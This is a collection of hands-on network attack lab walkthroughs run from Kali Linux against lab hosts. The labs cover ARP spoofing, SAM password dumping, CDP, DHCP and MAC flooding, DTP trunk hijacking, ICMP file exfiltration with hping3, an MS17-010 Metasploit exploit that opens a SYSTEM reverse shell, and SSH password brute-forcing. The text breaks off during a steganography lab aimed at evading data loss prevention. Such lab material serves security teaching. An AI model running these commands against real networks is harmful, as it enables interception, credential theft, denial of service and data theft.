## ARP spoofing (MITM)

1. Goal
    * Intercept the communication between 2 devices in a switched network.

2. Used hardware
    * 1 laptop with Kali Linux
    * 2 devices (Computers, laptops, ...)

3. Used software
    * Kali Linux (2019.4)

4. Setup



5. Getting started
    1. Get an overview of your network. (Kali Linux)
    
    

    

    The result shows us the client (192.168.1.1) and the server (192.168.1.2).

    2. Start the communication between the client and the server.

    
    
    3. Look at the MAC address table of the client.

    

    4. Start Wireshark (Kali Linux)

    

    The result shows us no ICMP traffic destined for the server (192.168.1.2).

    5. Set IP forwarding. (Kali Linux)
    
    IP forwarding allows an operating system to forward packets as a router does or more generally to route them through other networks.
    
    

    6. Launch the MITM attack. (Kali Linux)

        1. Start Ettercap.

        

        2. Select the correct sniffing method and interface.

        

        

        3. Select  the hosts (via a scan or manually).

        

        

        4. Start the attack.

        

        

    7. Verify if the attack was succesfull.

    We are now capturing the traffic between the client and the server.

    

    The MAC address table of the client is poisonend. (192.168.1.10 is our Kali)

    

6. Conclusion
    * A man-in-the-middle attack (MITM) is easy to establish and hard to detect.

## Attack the SAM database

1. Goal
    * Recover the password of a user that uses Microsoft Windows as operating system.
    
2. Used hardware
    * 1 laptop with Kali Linux
    * 1 laptop with Microsoft Windows (user)  

3. Used software
    * Kali Linux (2020.1)
    * Microsoft Windows 10

4. Setup
    
    

5. Getting started

    1. Introduction

        The Security Account Manager (SAM) is a database file that stores users' passwords.

        [More information about Security Account Manager](https://en.wikipedia.org/wiki/Security_Account_Manager)

        There are 2 possible strategies:

            * The online attack
            The user didn't log off. So Microsoft Windows is still running.

            * The offline attack
            The hard disk of the user is in your possion.
             

    2. The online attack

        1. Download the tool PwDump8.
        
            [On your own responsibility!](http://blackmath.it/#Download)


        2. Run the tool (requires administrative privileges) on the laptop of the user.

            

        3. Retrieve the password.

            There are multiple websites available.

            
    
    3. The offline attack

        1. Attach the hard disk to Kali laptop.

            

        2. Start ophcrack.

            
        
        3. Select Load - Encrypted SAM.

            
        
        4. Check the result.

            

        5. Retrieve the password.

            There are multiple websites available.

            

6. Conclusion
    * Never leave your computer unattended!
        
## CDP flooding

1. Goal
    * To saturate the CPU of a Cisco device.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2019.4)

4. Setup
    
    

5. Getting started
    1. Check if CDP (Cisco Discovery Protocol) is enabled on the Cisco device.
    
    [More information about CDP](https://en.wikipedia.org/wiki/Cisco_Discovery_Protocol)
    ```
    Switch#show cdp
    Global CDP information:
        Sending CDP packets every 60 seconds
        Sending a holdtime value of 180 seconds
        Sending CDPv2 advertisements is enabled
    Switch#
    ```
    2. Check the CPU usage of the Cisco device
    ```
    Switch#show processes cpu history

                         11111
          444445555577777444445555577777444445555555555555555555544444
    100
    90
    80
    70
    60
    50
    40
    30
    20
    10      *************************     ********************
         0....5....1....1....2....2....3....3....4....4....5....5....6
                   0    5    0    5    0    5    0    5    0    5    0
                   CPU% per second (last 60 seconds)
    ```
    3. Install Yersinia on Kali Linux (if necessary)
   
    [More information about Yersinia](https://tools.kali.org/vulnerability-analysis/yersinia)
    ```
    root@kali:~# apt-get update
    root@kali:~# apt-get upgrade
    root@kali:~# apt-get install yersinia
    ```
    4. Launching CDP flooding
    ```
    root@kali:~# yersinia -G
    ```
    

    Select Launch attack -> flooding CDP table

    

    The result of the attack can be seen in the following outputs.
    ```
    Switch#show cdp traffic
    CDP counters :
        Total packets output: 30, Input: 36432
        Hdr syntax: 0, Chksum error: 0, Encaps failed: 0
        No memory: 0, Invalid packet: 0,
        CDP version 1 advertisements output: 5, Input: 36432
        CDP version 2 advertisements output: 25, Input: 0
    Switch#
    ```
    ```
    Switch#show processes cpu history
       999999999999999999999999999999999999999999999999999999999999
       999999999999999999999999999999999999999999999999999999999999
   100 **********************************************************
    90 **********************************************************
    80 **********************************************************
    70 **********************************************************
    60 **********************************************************
    50 **********************************************************
    40 **********************************************************
    30 **********************************************************
    20 **********************************************************
    10 **********************************************************
       0....5....1....1....2....2....3....3....4....4....5....5....6
                 0    5    0    5    0    5    0    5    0    5    0
                 CPU% per second (last 60 seconds)
    ```
6. Conclusion 
    * It is recommended to disable CDP whenever possible.

## Data exfiltration

1. Goal
    * Carry out data from one computer to another computer using ICMP.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 laptop with Windows 10

3. Used software
    * Kali Linux (2020.1)
    * Wireshark 3.2.3

4. Setup
    
    

5. Getting started

    1. Data exfiltration occurs when malware and/or a malicious actor carries out an unauthorized data transfer from a computer.

    We will use hping3 as an example.
    
    [More information about hping3](https://tools.kali.org/information-gathering/hping3).

    2. Some additional information:
        - IP address Kali: 192.168.1.1/24
        - IP address Windows 10: 192.168.1.2/24
        - Name of the file that will be transferred: WLAN_Commands

    ```
    kali@KALI1:~$ cat ./Desktop/WLAN_Commands 
    Look for the correct WLAN adapter
    sudo airmon-ng

    Kill the nework managers
    sudo airmon-ng check kill

    Put the adapter in monitor mode
    sudo airmon-ng start wlan1

    Start Wireshark
    sudo wireshark

    Select wlan1mon interface!
    kali@KALI1:~$ 
    ```
    3. Check the possibilities of hping3.

    ```
    kali@KALI1:~$ sudo hping3 -h
    usage: hping3 host [options]
    -h  --help      show this help
    -v  --version   show version
    -c  --count     packet count
    -i  --interval  wait (uX for X microseconds, for example -i u1000)
        --fast      alias for -i u10000 (10 packets for second)
        --faster    alias for -i u1000 (100 packets for second)
        --flood      sent packets as fast as possible. Don't show replies.
    -n  --numeric   numeric output
    -q  --quiet     quiet
    -I  --interface interface name (otherwise default routing interface)
    -V  --verbose   verbose mode
    -D  --debug     debugging info
    -z  --bind      bind ctrl+z to ttl           (default to dst port)
    -Z  --unbind    unbind ctrl+z
        --beep      beep for every matching packet received
    Mode
    default mode     TCP
    -0  --rawip      RAW IP mode
    -1  --icmp       ICMP mode
    -2  --udp        UDP mode
    -8  --scan       SCAN mode.
                    Example: hping --scan 1-30,70-90 -S www.target.host
    -9  --listen     listen mode
    IP
    -a  --spoof      spoof source address
    --rand-dest      random destionation address mode. see the man.
    --rand-source    random source address mode. see the man.
    -t  --ttl        ttl (default 64)
    -N  --id         id (default random)
    -W  --winid      use win* id byte ordering
    -r  --rel        relativize id field          (to estimate host traffic)
    -f  --frag       split packets in more frag.  (may pass weak acl)
    -x  --morefrag   set more fragments flag
    -y  --dontfrag   set don't fragment flag
    -g  --fragoff    set the fragment offset
    -m  --mtu        set virtual mtu, implies --frag if packet size > mtu
    -o  --tos        type of service (default 0x00), try --tos help
    -G  --rroute     includes RECORD_ROUTE option and display the route buffer
    --lsrr           loose source routing and record route
    --ssrr           strict source routing and record route
    -H  --ipproto    set the IP protocol field, only in RAW IP mode
    ICMP
    -C  --icmptype   icmp type (default echo request)
    -K  --icmpcode   icmp code (default 0)
        --force-icmp send all icmp types (default send only supported types)
        --icmp-gw    set gateway address for ICMP redirect (default 0.0.0.0)
        --icmp-ts    Alias for --icmp --icmptype 13 (ICMP timestamp)
        --icmp-addr  Alias for --icmp --icmptype 17 (ICMP address subnet mask)
        --icmp-help  display help for others icmp options
    UDP/TCP
    -s  --baseport   base source port             (default random)
    -p  --destport   [+][+]<port> destination port(default 0) ctrl+z inc/dec
    -k  --keep       keep still source port
    -w  --win        winsize (default 64)
    -O  --tcpoff     set fake tcp data offset     (instead of tcphdrlen / 4)
    -Q  --seqnum     shows only tcp sequence number
    -b  --badcksum   (try to) send packets with a bad IP checksum
                    many systems will fix the IP checksum sending the packet
                    so you'll get bad UDP/TCP checksum instead.
    -M  --setseq     set TCP sequence number
    -L  --setack     set TCP ack
    -F  --fin        set FIN flag
    -S  --syn        set SYN flag
    -R  --rst        set RST flag
    -P  --push       set PUSH flag
    -A  --ack        set ACK flag
    -U  --urg        set URG flag
    -X  --xmas       set X unused flag (0x40)
    -Y  --ymas       set Y unused flag (0x80)
    --tcpexitcode    use last tcp->th_flags as exit code
    --tcp-mss        enable the TCP MSS option with the given value
    --tcp-timestamp  enable the TCP timestamp option to guess the HZ/uptime
    Common
    -d  --data       data size                    (default is 0)
    -E  --file       data from file
    -e  --sign       add 'signature'
    -j  --dump       dump packets in hex
    -J  --print      dump printable characters
    -B  --safe       enable 'safe' protocol
    -u  --end        tell you when --file reached EOF and prevent rewind
    -T  --traceroute traceroute mode              (implies --bind and --ttl 1)
    --tr-stop        Exit when receive the first not ICMP in traceroute mode
    --tr-keep-ttl    Keep the source TTL fixed, useful to monitor just one hop
    --tr-no-rtt       Don't calculate/show RTT information in traceroute mode
    ARS packet description (new, unstable)
    --apd-send       Send the packet described with APD (see docs/APD.txt)
    kali@KALI1:~$
    ``` 

    4. Start the capture at the Windows 10 laptop. (Wireshark)
    
    5. Start the communication between the two devices.

    ```
    kali@KALI1:~$ sudo hping3 -E ./Desktop/WLAN_Commands -1 -u -d 250 -c 1 192.168.1.2
    HPING 192.168.1.2 (eth0 192.168.1.2): icmp mode set, 28 headers + 250 data bytes
    [main] memlockall(): Operation not supported
    Warning: can't disable memory paging!
    EOF reached, wait some second than press ctrl+c
    len=278 ip=192.168.1.2 ttl=128 id=31449 icmp_seq=0 rtt=7.6 ms

    --- 192.168.1.2 hping statistic ---
    1 packets transmitted, 1 packets received, 0% packet loss
    round-trip min/avg/max = 7.6/7.6/7.6 ms
    kali@KALI1:~$
    ``` 

    6. Check Wireshark

    

6. Conclusion

    *  Take preventive and detective measures against data exfiltration.

## DHCP starvation

1. Goal
    * Exhausting all available IP addresses that can be allocated by the DHCP server.
     
2. Used hardware
    * 1 laptop with Kali Linux
    * 1 DHCP server (Can also be a router)

3. Used software
    * Kali Linux (2019.4)

4. Setup
    
    

5. Getting started
    
    1. Install Yersinia on Kali Linux (if necessary)
   
    [More information about Yersinia](https://tools.kali.org/vulnerability-analysis/yersinia)
    ```
    root@kali:~# apt-get update
    root@kali:~# apt-get upgrade
    root@kali:~# apt-get install yersinia
    ```

    2. Check the statistics of the DHCP server (DHCP Server).

    We will use Windows Powershell to complete this task.
        
    ```powershell
    Get-DhcpServer4Statistics

    ServerStartTime           : 25/01/2020 21:49:33
    TotalScopes               : 1
    ScopesWithDelayConfigured : 0
    ScopesWithDelayOffers     : 
    TotalAddresses            : 101
    AddressesInUse            : 3
    AddressesAvailable        : 98
    PercentageInUse           : 2,970297
    PercentagePendingOffers   : 0
    PercentageAvailable       : 97,0297
    Discovers                 : 0
    Offers                    : 0
    PendingOffers             : 0
    DelayedOffers             : 0
    Requests                  : 0
    Acks                      : 0
    Naks                      : 0
    Declines                  : 0
    Releases                  : 0
    ```
    
    3. Start Yersinia in Graphical Mode (KALI Linux).

    ```
    root@kali:~# yersinia -G
    ```
    

    4. Select Launch Attack and select DHCP.

      
    
    5. Start the attack and look at the statistics of the DHCP server (DHCP Server).
    
    ```powershell
    Get-DhcpServer4Statistics

    ServerStartTime           : 25/01/2020 22:36:15
    TotalScopes               : 1
    ScopesWithDelayConfigured : 0
    ScopesWithDelayOffers     : 
    TotalAddresses            : 198
    AddressesInUse            : 101
    AddressesAvailable        : 0
    PercentageInUse           : 51,0101
    PercentagePendingOffers   : 48,9899
    PercentageAvailable       : 0
    Discovers                 : 54151
    Offers                    : 98
    PendingOffers             : 97
    DelayedOffers             : 0
    Requests                  : 1
    Acks                      : 1
    Naks                      : 0
    Declines                  : 0
    Releases                  : 0
    ```

6. Conclusion
    * A DHCP starvation attack is easily launched. To mitigate this kind of attack several options are available.   

## DTP attack

1. Goal
    * Getting an access port into trunking mode. (All VLANs are reachable)

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2020.1)

4. Setup
    
    

5. Getting started

    1. Check if DTP (Dynamic Trunking Protocol) is enabled on the Cisco device.

    
    
    [More information about DTP](https://en.wikipedia.org/wiki/Dynamic_Trunking_Protocol)
 
    2. Check the status of port on the Cisco switch.

    ```
    Switch#show int gigabitEthernet 0/2 trunk

    Port        Mode             Encapsulation  Status        Native vlan
    Gi0/2       auto             802.1q         not-trunking  1

    Port        Vlans allowed on trunk
    Gi0/2       1

    Port        Vlans allowed and active in management domain
    Gi0/2       1

    Port        Vlans in spanning tree forwarding state and not pruned
    Gi0/2       1
    Switch#
    ```
    3. Install Yersinia on Kali Linux (if necessary)
   
    [More information about Yersinia](https://tools.kali.org/vulnerability-analysis/yersinia)
    
    ```
    kali@kali:~# sudo apt-get update
    kali@kali:~# sudo apt-get upgrade
    kali@kali:~# sudo apt-get install yersinia
    ```
    4. Start Yersinia in Graphical Mode (KALI Linux).

    ```
    kali@kali:~# sudo yersinia -G
    ```
    
    

    5. Select Launch Attack and select DTP

    

    

    6. Check the status of port on the Cisco switch.
    ```
    Switch#show int gigabitEthernet 0/2 trunk

    Port        Mode             Encapsulation  Status        Native vlan
    Gi0/2       auto             802.1q         trunking      1

    Port        Vlans allowed on trunk
    Gi0/2       1-4094

    Port        Vlans allowed and active in management domain
    Gi0/2       1,10,20

    Port        Vlans in spanning tree forwarding state and not pruned
    Gi0/2       1,10,20
    Switch#
    ```
    
6. Conclusion
    * Protect your access ports!

## MAC flooding

1. Goal
    * Changing the behavior of the switch to the behavior of a hub. (Monitoring all traffic)

2. Used hardware
    * 1 laptop with Kali Linux
    * 2 devices (Client & Server)
    * 1 laptop with Wireshark
    * 1 switch

3. Used software
    * Kali Linux (2020.1)
    * Wireshark 3.2.2

4. Setup

    

5. Getting started
    1. Get an overview of your network. (Kali Linux)
    
    ```
    kali@kali:~# sudo netdiscover
    ```

    ```
    Currently scanning: 192.168.20.0/16   |   Screen View: Unique Hosts                                  
                                                                                                      
    2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                      
    _____________________________________________________________________________
        IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
    -----------------------------------------------------------------------------
    192.168.1.1     00:24:9b:13:3d:74      1        60  Action Star Enterprise Co., Ltd.                                          
    192.168.1.4     00:21:70:af:62:79      1        60  Dell Inc.   
    ```

    The result shows us the client (192.168.1.1) and the server (192.168.1.4).

    2. Start the communication between the client and the server.

    ```
    C:\Users\Student>ping 192.168.1.4 -t

    Pinging 192.168.1.4 with 32 bytes of data:
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    ```
    
    3. Look at the MAC address table of the client.

    ```
    C:\Users\Student>arp -a

    Interface: 192.168.1.1 --- 0xb
        Internet Address      Physical Address      Type
        192.168.1.4           00-21-70-af-62-79     dynamic   
        192.168.1.255         ff-ff-ff-ff-ff-ff     static    
        224.0.0.22            01-00-5e-00-00-16     static    
        224.0.0.251           01-00-5e-00-00-fb     static    
        224.0.0.252           01-00-5e-00-00-fc     static 
    ```

    4. Start Wireshark. (Kali Linux)

    

    The result shows us no ICMP traffic destined for the server (192.168.1.4).

    5. Install macof on Kali Linux. (If necessary)

    ```
    kali@kali:~# sudo apt-get update
    kali@kali:~# sudo apt-get upgrade
    kali@kali:~# sudo apt-get install dsniff
    ```

    6. Check the MAC address table of the switch.

    ```
    Switch#show mac address-table
              Mac Address Table
    -------------------------------------------

    Vlan    Mac Address       Type        Ports
    ----    -----------       --------    -----
    All    0100.0ccc.cccc    STATIC      CPU
    All    0100.0ccc.cccd    STATIC      CPU
    All    0180.c200.0000    STATIC      CPU
    All    0180.c200.0001    STATIC      CPU
    All    0180.c200.0002    STATIC      CPU
    All    0180.c200.0003    STATIC      CPU
    All    0180.c200.0004    STATIC      CPU
    All    0180.c200.0005    STATIC      CPU
    All    0180.c200.0006    STATIC      CPU
    All    0180.c200.0007    STATIC      CPU
    All    0180.c200.0008    STATIC      CPU
    All    0180.c200.0009    STATIC      CPU
    All    0180.c200.000a    STATIC      CPU
    All    0180.c200.000b    STATIC      CPU
    All    0180.c200.000c    STATIC      CPU
    All    0180.c200.000d    STATIC      CPU
    All    0180.c200.000e    STATIC      CPU
    All    0180.c200.000f    STATIC      CPU
    All    0180.c200.0010    STATIC      CPU
    All    ffff.ffff.ffff    STATIC      CPU
      1    0021.70af.6279    DYNAMIC     Gi0/1
      1    0024.9b13.3d74    DYNAMIC     Gi0/4
      1    d067.e556.cac8    DYNAMIC     Gi0/2
      1    ecf4.bb1b.7671    DYNAMIC     Gi0/3
    Total Mac Addresses for this criterion: 24
    Switch#
    ```
    
    6. Launch the attack. (MAC Flooding)

    ```
    kali@kali:~# sudo macof -i eth0
    ```
    
    7. Clear the MAC address table of the switch. (To speed up the result of the attack)

    ```
    Switch#clear mac address-table  
    ```

    8. Stop the attack and check the status of MAC address table.

    ```
    Switch#show mac address-table count

    Mac Entries for Vlan 1:
    ---------------------------
    Dynamic Address Count  : 8170
    Static  Address Count  : 0
    Total Mac Addresses    : 8170

    Total Mac Address Space Available: 0

    Switch# 
    ```
    9. Check Wireshark.

    

    The result shows us ICMP traffic destined for the server (192.168.1.4).

6. Conclusion
    * It is easy to change the behavior of a switch to the behavior of a hub.

## Metasploit framework

1. Goal
    * Getting a brief introduction into the Metasploit Framework.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 laptop with Windows 7

3. Used software
    * Kali Linux (2020.1)

4. Setup
    
    

5. Getting started

    1. Metasploit framework is the most popular open source tool for pentesting.
    Metasploit framework contains collections of exploits, payloads, and encoders that can be used to identify and exploit vulnerabilities during a pentest project.

    [More information about Metasploit framework](https://github.com/rapid7/metasploit-framework/wiki)
 
    2. Check the IP address of the victim.

    ```
    C:\Users\TEST>ipconfig
    
    Windows IP-configuratie
    
    Ethernet-adapter voor LAN-verbinding:

        Verbindingsspec. DNS-achtervoegsel: lan
        IPv4-adres. . . . . . . . . . . . : 192.168.1.22
        Subnetmasker. . . . . . . . . . . : 255.255.255.0
        Standaardgateway. . . . . . . . . : 192.168.1.1

    C:\Users\TEST>
    ```
    3. Start a port scan using Nmap.(Kali Linux)
   
    [More information about Nmap](https://nmap.org/)
    
    ```
    kali@kali:~# nmap 192.168.1.22
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-09 10:33 CEST
    Nmap scan report for TEST-PC.lan (192.168.1.22)
    Host is up (0.0019s latency).
    Not shown: 990 closed ports
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    5357/tcp  open  wsdapi
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49155/tcp open  unknown
    49156/tcp open  unknown
    49158/tcp open  unknown

    Nmap done: 1 IP address (1 host up) scanned in 1.87 seconds
    kali@kali:~# 
    ```
    4. Start Metasploit framework.(KALI Linux)

    

    

    5. Select an exploit. For instance ms17_010_psexec.

    ```
    msf5 > search ms17_010_psexec

    Matching Modules                                                ================                                                                                                                                                                                                    
    #  Name                                 Disclosure Date  Rank   Check   Description                                 
    -  ----                                 ---------------  ----   -----   -----------
    0  exploit/windows/smb/ms17_010_psexec  2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution

    msf5 > 
    msf5 > use exploit/windows/smb/ms17_010_psexec
    msf5 exploit(windows/smb/ms17_010_psexec) > 

    msf5 exploit(windows/smb/ms17_010_psexec) > info

              Name: MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
            Module: exploit/windows/smb/ms17_010_psexec
          Platform: Windows
              Arch: x86, x64
        Privileged: No
           License: Metasploit Framework License (BSD)
              Rank: Normal
         Disclosed: 2017-03-14

    Provided by:
        sleepya
        zerosum0x0
        Shadow Brokers
        Equation Group

    Available targets:
        Id  Name
        --  ----
        0   Automatic
        1   PowerShell
        2   Native upload
        3   MOF upload

    Check supported:
        Yes

    Basic options:
        Name                  Current Setting                                                 Required  Description
        ----                  ---------------                                                 --------  -----------
        DBGTRACE              false                                                           yes       Show extra debug trace info
        LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
        NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
        NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
        RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
        RPORT                 445                                                             yes       The Target port
        SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
        SERVICE_DISPLAY_NAME                                                                  no        The service display name
        SERVICE_NAME                                                                          no        The service name
        SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
        SMBDomain             .                                                               no        The Windows domain to use for authentication
        SMBPass                                                                               no        The password for the specified username
        SMBUser                                                                               no        The username to authenticate as

    Payload information:
        Space: 3072

    Description:
        This module will exploit SMB with vulnerabilities in MS17-010 to 
        achieve a write-what-where primitive. This will then be used to 
        overwrite the connection session information with as an 
        Administrator session. From there, the normal psexec payload code 
        execution is done. Exploits a type confusion between Transaction and 
        WriteAndX requests and a race condition in Transaction requests, as 
        seen in the EternalRomance, EternalChampion, and EternalSynergy 
        exploits. This exploit chain is more reliable than the EternalBlue 
        exploit, but requires a named pipe.

    References:
        https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
        https://cvedetails.com/cve/CVE-2017-0143/
        https://cvedetails.com/cve/CVE-2017-0146/
        https://cvedetails.com/cve/CVE-2017-0147/
        https://github.com/worawit/MS17-010
        https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
        https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

    Also known as:
        ETERNALSYNERGY
        ETERNALROMANCE
        ETERNALCHAMPION
        ETERNALBLUE

    msf5 exploit(windows/smb/ms17_010_psexec) >
    ``` 
    6. Set some options.
    ```
    msf5 exploit(windows/smb/ms17_010_psexec) > set rhost 192.168.1.22
    rhost => 192.168.1.22
    msf5 exploit(windows/smb/ms17_010_psexec) > set SMBUser TEST
    SMBUser => TEST
    msf5 exploit(windows/smb/ms17_010_psexec) > set SMBPass Easy
    SMBPass => Easy
    ```
    7. Launch the exploit
    ```
    msf5 exploit(windows/smb/ms17_010_psexec) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444 
    [*] 192.168.1.22:445 - Authenticating to 192.168.1.22 as user 'TEST'...
    [*] 192.168.1.22:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
    [*] 192.168.1.22:445 - Built a write-what-where primitive...
    [+] 192.168.1.22:445 - Overwrite complete... SYSTEM session obtained!
    [*] 192.168.1.22:445 - Selecting PowerShell target
    [*] 192.168.1.22:445 - Executing the payload...
    [+] 192.168.1.22:445 - Service start timed out, OK if running a command or non-service executable...
    [*] Sending stage (180291 bytes) to 192.168.1.22
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.22:49172) at 2020-04-09 13:43:51 +0200

    meterpreter > 
    ```
    8. Display the Meterpreter help menu.
    ```
    meterpreter > help

    Core Commands
    =============

        Command                   Description
        -------                   -----------
        ?                         Help menu
        background                Backgrounds the current session
        bg                        Alias for background
        bgkill                    Kills a background meterpreter script
        bglist                    Lists running background scripts
        bgrun                     Executes a meterpreter script as a background thread
        channel                   Displays information or control active channels
        close                     Closes a channel
        disable_unicode_encoding  Disables encoding of unicode strings
        enable_unicode_encoding   Enables encoding of unicode strings
        exit                      Terminate the meterpreter session
        get_timeouts              Get the current session timeout values
        guid                      Get the session GUID
        help                      Help menu
        info                      Displays information about a Post module
        irb                       Open an interactive Ruby shell on the current session
        load                      Load one or more meterpreter extensions
        machine_id                Get the MSF ID of the machine attached to the session
        migrate                   Migrate the server to another process
        pivot                     Manage pivot listeners
        pry                       Open the Pry debugger on the current session
        quit                      Terminate the meterpreter session
        read                      Reads data from a channel
        resource                  Run the commands stored in a file
        run                       Executes a meterpreter script or Post module
        secure                    (Re)Negotiate TLV packet encryption on the session
        sessions                  Quickly switch to another session
        set_timeouts              Set the current session timeout values
        sleep                     Force Meterpreter to go quiet, then re-establish session.
        transport                 Change the current transport mechanism
        use                       Deprecated alias for "load"
        uuid                      Get the UUID for the current session
        write                     Writes data to a channel


    Stdapi: File system Commands
    ============================

        Command       Description
        -------       -----------
        cat           Read the contents of a file to the screen
        cd            Change directory
        checksum      Retrieve the checksum of a file
        cp            Copy source to destination
        dir           List files (alias for ls)
        download      Download a file or directory
        edit          Edit a file
        getlwd        Print local working directory
        getwd         Print working directory
        lcd           Change local working directory
        lls           List local files
        lpwd          Print local working directory
        ls            List files
        mkdir         Make directory
        mv            Move source to destination
        pwd           Print working directory
        rm            Delete the specified file
        rmdir         Remove directory
        search        Search for files
        show_mount    List all mount points/logical drives
        upload        Upload a file or directory


    Stdapi: Networking Commands
    ===========================

        Command       Description
        -------       -----------
        arp           Display the host ARP cache
        getproxy      Display the current proxy configuration
        ifconfig      Display interfaces
        ipconfig      Display interfaces
        netstat       Display the network connections
        portfwd       Forward a local port to a remote service
        resolve       Resolve a set of host names on the target
        route         View and modify the routing table


    Stdapi: System Commands
    =======================

        Command       Description
        -------       -----------
        clearev       Clear the event log
        drop_token    Relinquishes any active impersonation token.
        execute       Execute a command
        getenv        Get one or more environment variable values
        getpid        Get the current process identifier
        getprivs      Attempt to enable all privileges available to the current process
        getsid        Get the SID of the user that the server is running as
        getuid        Get the user that the server is running as
        kill          Terminate a process
        localtime     Displays the target system's local date and time
        pgrep         Filter processes by name
        pkill         Terminate processes by name
        ps            List running processes
        reboot        Reboots the remote computer
        reg           Modify and interact with the remote registry
        rev2self      Calls RevertToSelf() on the remote machine
        shell         Drop into a system command shell
        shutdown      Shuts down the remote computer
        steal_token   Attempts to steal an impersonation token from the target process
        suspend       Suspends or resumes a list of processes
        sysinfo       Gets information about the remote system, such as OS


    Stdapi: User interface Commands
    ===============================

        Command        Description
        -------        -----------
        enumdesktops   List all accessible desktops and window stations
        getdesktop     Get the current meterpreter desktop
        idletime       Returns the number of seconds the remote user has been idle
        keyboard_send  Send keystrokes
        keyevent       Send key events
        keyscan_dump   Dump the keystroke buffer
        keyscan_start  Start capturing keystrokes
        keyscan_stop   Stop capturing keystrokes
        mouse          Send mouse events
        screenshare    Watch the remote user's desktop in real time
        screenshot     Grab a screenshot of the interactive desktop
        setdesktop     Change the meterpreters current desktop
        uictl          Control some of the user interface components


    Stdapi: Webcam Commands
    =======================

        Command        Description
        -------        -----------
        record_mic     Record audio from the default microphone for X seconds
        webcam_chat    Start a video chat
        webcam_list    List webcams
        webcam_snap    Take a snapshot from the specified webcam
        webcam_stream  Play a video stream from the specified webcam


    Stdapi: Audio Output Commands
    =============================

        Command       Description
        -------       -----------
        play          play an audio file on target system, nothing written on disk


    Priv: Elevate Commands
    ======================

        Command       Description
        -------       -----------
        getsystem     Attempt to elevate your privilege to that of local system.


    Priv: Password database Commands
    ================================

        Command       Description
        -------       -----------
        hashdump      Dumps the contents of the SAM database


    Priv: Timestomp Commands
    ========================

        Command       Description
        -------       -----------
        timestomp     Manipulate file MACE attributes

    meterpreter > 
    ```
    9. Get into a system command shell
    ```
    meterpreter > shell
    Process 2288 created.
    Channel 2 created.
    Microsoft Windows [versie 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation. Alle rechten voorbehouden.

    C:\Windows\system32>


    C:\Windows\system32>whoami
    whoami
    nt authority\system

    C:\Windows\system32>

6. Conclusion
    * Metasploit framework is a solid foundation that you can build upon and easily customize to meet your needs.
    
    [More information about Metasploit framework](https://www.offensive-security.com/metasploit-unleashed/)

## Password guessing attack

1. Goal
    * Getting SSH access to a switch

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2020.1)

4. Setup
    
    

5. Getting started

    1. The username (root) is already obsolete and the IP address of the switch is 192.168.1.254.
    
    2. Check the SSH connection of the switch.

    ```
    kali@KALI1:~$ ssh 192.168.1.254 -l root
    Password: 
    Password: 
    Password: 
    root@192.168.1.254's password: 
    Connection closed by 192.168.1.254 port 22
    kali@KALI1:~$
    ```
    3. Start Patator on Kali Linux
   
    [More information about Patator](https://tools.kali.org/password-attacks/patator)
    
    * Select the module ssh_login.
    * Define the host and user.
    * Select a password file.
    * Ignore "Authentication failed" messages.

    
    ```
    kali@KALI1:~/Desktop$ patator ssh_login host=192.168.1.254 user=root password=FILE0 0=password.lst -x ignore:mesg='Authentication failed.'
    14:01:47 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2020-05-26 14:01 CEST
    14:01:47 patator    INFO -                                                                              
    14:01:47 patator    INFO - code  size    time | candidate                          |   num | mesg
    14:01:47 patator    INFO - -----------------------------------------------------------------------------
    14:08:34 patator    INFO - 0     18     2.155 | toor                               |   450 | SSH-2.0-Cisco-1.25
    ^C
    14:10:59 patator    INFO - Hits/Done/Skip/Fail/Size: 1/611/0/0/3560, Avg: 1 r/s, Time: 0h 9m 12s
    14:10:59 patator    INFO - To resume execution, pass --resume 61,61,61,61,61,61,61,61,61,62
    kali@KALI1:~/Desktop$
    ```
    The password (toor) has been retrieved!

     4. Check the SSH connection of the switch.

     ```
     kali@KALI1:~$ ssh 192.168.1.254 -l root
    Password: 
    S1#
     ```

6. Conclusion
    * Protect your SSH connections well! (Management VLAN, strong passwords, restrict access, ...)
## Steganography

1. Goal
    * Hide (confidential) data to bypass Data Loss Prevention.

2. Used hardware
    * 1 laptop with Kali Linux

3. Used software
    * Kali Linux (2020.2)

4. Setup
    
    

5. Getting started

    1. Steganography is the practice of concealing a file, message, image, or video within another file, message, image, or video.

    We will use CloakifyFactory as an example.
    
    [More information about CloakifyFactory](https://github.com/TryCatchHCF/Cloakify).

    2. Download and extract the ZIP file.

    ```bash
    kali@kali:~/Desktop/Cloakify-master$ ls -Al
    total 76
